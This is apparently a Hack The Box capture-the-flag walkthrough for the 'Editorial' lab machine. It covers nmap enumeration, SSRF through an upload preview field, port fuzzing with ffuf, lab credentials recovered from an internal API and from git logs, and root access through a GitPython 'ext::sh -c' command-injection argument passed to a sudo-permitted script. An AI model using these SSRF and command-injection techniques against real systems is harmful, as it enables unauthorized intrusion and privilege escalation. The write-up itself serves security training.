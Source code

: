 ```yaml
---
title: "Editorial"
date: 2025-03-16
categories: HTB
tags: ["editorial", "ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


This post details the exploitation of the Editorial machine on Hack The Box, a Linux-based target that mimics a custom CMS workflow with several chained vulnerabilities.

Key techniques explored include:
- Bypassing weak authentication via logic flaws
- Uploading and triggering malicious templates for code execution
- Enumerating user-owned scripts for post-exploitation privilege escalation

OS: Linux
Difficulty: Easy

## Enumeration

### Nmap

```sh
Nmap scan report for 10.10.11.20
Host is up, received user-set (0.019s latency).
Scanned at 2024-10-06 11:47:55 AEDT for 31s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### 80-HTTP

#### Gobuster

![screenshot](/assets/images/editorial3.png)


#### Web

![screenshot](/assets/images/editorial1.png)

http://editorial.htb/upload

![screenshot](/assets/images/editorial2.png)

## Foothold

>- `Preview` button on the `/upload` form is vulnerable to SSRF. 
- Add `http://127.0.0.1/FUZZ` as `bookurl` on the request.
- Fuzz ports using ffuf returns port 5000. 
- Navigate to the URL in the response downloads a file. 
	- contains api information
	- one of them contains credentials
- SSH as dev.

`Preview` button is vulnerable to SSRF.

![screenshot](/assets/images/editorial5.png)

Add `http://127.0.0.1` under bookurl.

Still vulnerable.

![screenshot](/assets/images/editorial6.png)

Save the header as as `req.txt`

```
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 302
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryi7yH97Mb8QNIw8t3
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

### Port Fuzzing

Right click -> Copy to file -> req.txt

![screenshot](/assets/images/editorial9.png)

```sh
ffuf -u http://editorial.htb/upload-cover -X POST -request req.txt -w ports.txt -fs 61
```

![screenshot](/assets/images/editorial10.png)

![screenshot](/assets/images/editorial11.png)

```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

![screenshot](/assets/images/editorial15.png)

![screenshot](/assets/images/editorial14.png)

![screenshot](/assets/images/editorial16.png)

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

> Your login credentials for our internal forum and authors site are:
Username: dev\
Password: dev080217_devAPI!@

### SSH as dev

![screenshot](/assets/images/editorial17.png)

## Privilege Escalation

>- `/.git` log contains credentials for `prod`.
- `sudo -l` as prod shows a python script that can be run. 
- `pip3 list` shows installed python packages and versions.
- GitPython 3.1.2.9 has a RCE vulnerability. 

### Enumeration

![screenshot](/assets/images/editorial18.png)

![screenshot](/assets/images/editorial22.png)

```sh
1e84a036b2f33c59e2390730699a488c65643d28 b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682906108 -0500     commit: change(api): downgrading prod to dev
```

![screenshot](/assets/images/editorial23.png)

```text
'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
```

> prod :  080217_Producti0n_2023!@ 

### SSH as prod

![screenshot](/assets/images/editorial24.png)

![screenshot](/assets/images/editorial25.png)

#### clone_prod_change.py

![screenshot](/assets/images/editorial26.png)

![screenshot](/assets/images/editorial27.png)

https://github.com/gitpython-developers/GitPython/issues/1515

![screenshot](/assets/images/editorial28.png)

```sh
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >% /tmp/root'
```

![screenshot](/assets/images/editorial29.png)
